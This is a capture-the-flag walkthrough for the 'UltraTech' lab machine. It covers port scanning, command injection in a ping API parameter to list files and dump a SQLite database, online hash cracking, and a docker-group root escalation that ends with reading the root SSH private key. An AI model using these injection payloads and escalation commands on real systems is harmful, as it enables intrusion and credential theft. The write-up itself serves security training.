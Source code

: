 # UltraTech

## The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing

# It's enumeration time!

## After enumerating the services and resources available on this machine, what did you discover?

### Which software is using the port 8081?

### Which other non-standard port is used?

### Which software using this port?

### Which GNU/Linux distribution seems to be used?

All the answers for these questions we can get from this nmap command

```Bash
nmap -p- -sV <IP>
```

- `-p `: Allow us to scan selected ports
- `-sV`: Probes ports to determine service/version info

![SCREEN01](https://github.com/user-attachments/assets/970312c2-822c-4a48-940d-66146079e7b6)

### The software using the port 8081 is a REST api, how many of its routes are used by the web application

Scan the api with gobuster

```Bash
gobuster dir -u http://<IP>:8081 -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

![SCREEN02](https://github.com/user-attachments/assets/1850a0e9-addb-46cb-a0eb-60723872629e)

# Let the fun begin

## Now that you know which services are available, it's time to exploit them! Did you find somewhere you could try to login? Great! Quick and dirty login implementations usually goes with poor data management. There must be something you can do to explore this machine more thoroughly.

### There is a database lying around, what is its filename?

1. Enumerate the second port for interesting endpoints

```Bash
gobuster dir -u http://<IP>:31331 -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt -x js,php,txt,html
```

![SCREEN03](https://github.com/user-attachments/assets/1499568a-a676-496d-a735-a897981905bb)

2. In the source of `<IP>:31331/partners.html` we can find link to `http://<IP>:31331/js/api.js` which lead us to the `http://${getAPIURL()}/ping?ip=${window.location.hostname}` in which we can perform injection by adding ;\`ls\` at the end

![SCREEN04](https://github.com/user-attachments/assets/36789a36-42fd-48df-8db6-b9abc07f8169)
![SCREEN05](https://github.com/user-attachments/assets/75b42b7d-52f4-46ec-abfa-530bcd43a1af)

### What is the first user's password hash?

1. Add ;\`cat utech.db.sqlite\`

![SCREEN06](https://github.com/user-attachments/assets/488c0fc2-051b-4961-af1a-b658c4398637)

### What is the password associated with this hash?

1. Put the hash in the [Crack Station](https://crackstation.net/)

![SCREEN07](https://github.com/user-attachments/assets/23e024a4-a890-466c-94f5-54b6aa910b81)

# The root of all evil

## Congrats if you've made it this far, you should be able to comfortably run commands on the server by now! Now's the time for the final step! You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal. Mistakes were made, take advantage of it.

### What are the first 9 characters if the root user's private SSH key?

1. Login with ssh, and check the groups

```Bash
ssh r00t@<IP>
id
```

![SCREEN08](https://github.com/user-attachments/assets/78912948-fed6-40d3-b99f-c89f1c499b6d)

2. Since we are in a docker group, we can exploit it using [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), and upgrade bash

```Bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
python -c 'import pty; pty.spawn("/bin/bash")'
```
![SCREEN09](https://github.com/user-attachments/assets/07422e91-1401-41ca-8c55-6ff10e19cda3)

3. The private/public keys are stored in the usual place:

```Bash
find / -type f -name "*.pub"
ls /root/.ssh/
cat /root/.ssh/id_rsa
```

![SCREEN10](https://github.com/user-attachments/assets/f544e4cb-49db-4cb2-870f-23d4c1837ec7)
